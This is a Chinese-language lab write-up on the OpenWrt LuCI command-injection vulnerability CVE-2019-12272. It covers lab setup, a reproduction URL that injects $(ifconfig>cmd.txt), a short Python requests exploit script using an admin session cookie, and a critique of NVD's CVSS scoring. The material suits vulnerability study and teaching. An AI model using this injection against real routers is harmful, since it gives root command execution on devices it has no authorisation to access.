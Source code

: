 ## 漏洞简介

关于该漏洞的简介，直接引用 [中国国家信息安全漏洞库 CNNVD-201905-962](http://www.cnnvd.org.cn/web/xxk/ldxqById.tag?CNNVD=CNNVD-201905-962) 的漏洞简介：

> OpenWrt LuCI是一款用于OpenWrt（Linux发行版）的图形化配置界面。

> OpenWrt LuCI 0.10及之前版本中的admin/status/realtime/bandwidth_status和admin/status/realtime/wireless_status端点存在命令注入漏洞。该漏洞源于外部输入数据构造可执行命令过程中，网络系统或产品未正确过滤其中的特殊元素。攻击者可利用该漏洞执行非法命令。

## 环境搭建

参考 [第一章实验 OpenWrt on VirtualBox](../chap0x01/exp.md#openwrt-on-virtualbox) 的方法，下载安装存在该漏洞的 `OpenWrt` [镜像版本](https://archive.openwrt.org/chaos_calmer/15.05.1/x86/64/openwrt-15.05.1-x86-64-combined-ext4.img.gz)。

## 漏洞复现

先使用管理员账号登录 LuCI ，再使用浏览器访问 `http://192.168.56.3/cgi-bin/luci/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt)` 触发漏洞，再访问 [http://192.168.56.3/cmd.txt](http://192.168.56.3/cmd.txt) 获取上一步命令执行的结果。

## 漏洞利用

![](attach/copy-as-curl.png)

通过 Chrome 浏览器开发者工具的「Copy as curl」功能，将漏洞复现请求复制为 `curl 命令` ，然后通过第三方网站 [将 curl 命令转换为 Python requests 代码](https://curl.trillworks.com/) ，再稍加改动添加继续访问 `/cmd.txt` 并打印服务器响应，得到示例如下：

```python
import requests

cookies = {
    'sysauth': 'cbb84ab82b19f7b24f7c169ac53236d5',
}

headers = {
    'Proxy-Connection': 'keep-alive',
    'Pragma': 'no-cache',
    'Cache-Control': 'no-cache',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.100 Safari/537.36',
    'DNT': '1',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8',
}

response = requests.get('http://192.168.56.3/cgi-bin/luci/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3Ecmd.txt)', headers=headers, cookies=cookies, verify=False)

# added by human
if response.status_code == 200:
    response = requests.get('http://192.168.56.3/cmd.txt')
    print(response.text)
else:
    print("exp failed")
```

以上只是「抛砖引玉」，介绍一种快速将 Web 应用手工漏洞利用步骤变成「自动化脚本」的例子。如果需要更完善的漏洞利用效果，可以自行对「机器生成的代码」进行二次开发。


## 漏洞分析和修复

关于该漏洞的更详细的漏洞原理分析和修复方法可以查阅 [CVE-2019-12272 OpenWrt图形化管理界面LuCI命令注入分析](https://hachp1.github.io/posts/Web%E5%AE%89%E5%85%A8/20190710-lucirce.html) 这篇文章，此处不再赘述。

## 关于该漏洞的 CVSS 评分探讨

先附上美国国家信息安全漏洞库对该漏洞的评分情况截图如下：

[![NVD 记录的 CVE-2019-12272 漏洞详情](attach/CVE-2019-12272-CVSS-details.png)](https://nvd.nist.gov/vuln/detail/CVE-2019-12272)

在上述漏洞复现过程中我们已经验证过：该漏洞的有效利用前提是需要获得 `LuCI` 的「访问权限」。

在 `OpenWrt` 的默认配置里，`LuCI` 使用的是系统的 `root` 用户口令进行身份验证。当然如下图所示，可以通过 `LuCI` 菜单的 `System->Administration` 便捷的关闭 `root` 用户直接通过「口令验证」方式远程 SSH 到路由器上。

![](attach/openwrt-luci-ssh-config.png)

NVD 官方给出的漏洞评分「出人意料」的在 2 个版本的 CVSS 评分标准里均认为该漏洞的利用无需「身份认证」（CVSS 2.0）或「获得必要授权」（CVSS 3.0），这是该漏洞的评分过程「质疑点之一」。

其次，关于漏洞可能造成的危害影响，NVD 给出的 CVSS 2.0 和 3.0 标准的 `CIA` 影响评价居然不是一致的：

* CVSS 2.0 版本的评分里，漏洞危害被认为是「部分（`Partial`）」影响 `CIA` 三要素；
* CVSS 3.0 版本的评分里，漏洞危害被认为是「严重（`High`）」影响 `CIA` 三要素；

还是根据实际的漏洞复现和漏洞分析可知：`LuCI` 的宿主进程 `uhttpd` 属主权限是 `root` ，因此对于影响到该进程的「代码执行」漏洞自然是以 `root` 用户身份执行的，所以漏洞危害评价为「严重」影响 `CIA` 三要素是「客观准确」的，对应的，这就是该漏洞的 CVSS 2.0 评分过程「质疑点之二」。

综合以上质疑点分别使用 CVSS 2.0 和 3.0 标准修正该漏洞的评分后得到：

* CVSS 2.0 9.0
* CVSS 3.0 8.8 

对应 [漏洞危害级别](https://nvd.nist.gov/vuln-metrics/cvss) 均为：高危（High）。需要注意的是，经过上述评分修正，按照 CVSS 3.0 的漏洞评级标准，该漏洞不再是「最高等级：紧急（Critical）」（对应漏洞基础评分：9.0-10.0）
。对于 CVSS 2.0 评分标准来说，由于漏洞评价最高等级只有「高危（High）」（对应漏洞基础评分：7.0-10.0），所以并没有改变漏洞危害性程度评级。

除了漏洞评分质疑，我们还有注意到 NVD 的漏洞详情里，该漏洞的 `Exploitability Score` 在 CVSS 3.0 和 CVSS 2.0 里的评分相差巨大：`3.9 VS. 10` ，但这和两者的计算公式发生了变化有关系。这 2 个看似悬殊巨大的「漏洞可利用性」评分已经分别对应各自标准里的「最高可利用性」评价了。

### 附 CVSS 在线计算器计算结果

[![NVD 官方原版 CVSS-3.0 评分 - BaseScore: 9.8](attach/CVE-2019-12272-CVSS-3.0-original.png)](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?name=CVE-2019-12272&vector=AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)

[![CVSS-3.0 评分修正版 - BaseScore: 8.8](attach/CVE-2019-12272-CVSS-3.0-modified.png)](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H)

[![NVD 官方原版 CVSS-3.0 评分 - BaseScore: 7.5](attach/CVE-2019-12272-CVSS-2.0-original.png)](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator?name=CVE-2019-12272&vector=(AV:N/AC:L/Au:N/C:P/I:P/A:P))

[![CVSS-2.0 评分修正版 - BaseScore 9.0](attach/CVE-2019-12272-CVSS-2.0-modified.png)](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator?vector=(AV:N/AC:L/Au:S/C:C/I:C/A:C))

